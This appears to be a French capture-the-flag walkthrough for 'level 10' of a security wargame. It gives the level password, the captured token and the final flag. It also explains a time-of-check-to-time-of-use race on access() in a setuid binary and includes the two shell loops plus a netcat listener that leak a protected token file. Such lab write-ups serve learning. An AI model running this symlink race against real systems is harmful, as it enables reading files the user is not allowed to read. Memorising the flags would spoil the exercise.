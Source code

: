 # level 10

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
s5cAJpM8ev6XHw998pRWG728z
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

Ltrace donne pas assez d’info

Donc on utilise `objdump -s ./level10`

On voit que le binaire utilise access(), en regardant ce que fait la fonction on lit qu'elle a un exploit “race condition” (en gros, entre la vérif et l'envoie, t’as un petit temps pour modifier le fichier)

On crée deux programmes
```sh
while [ 1 ]
do
        rm -rf /tmp/wow
        touch /tmp/wow
        rm -rf /tmp/wow
        ln -s ~/token /tmp/wow
done
```
```sh
while [ 1 ]
do
        ~/level10 /tmp/wow 127.0.0.1
done
```
On lance un 3eme pour spy le port `6969`
```cmd
nc -l -k   6969
```

On récupère le flag `woupa2yuojeeaaed06riuj63c`


```cmd
su flag10 woupa2yuojeeaaed06riuj63c
getflag
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
feulo4b72j7edeahuete3no7c
```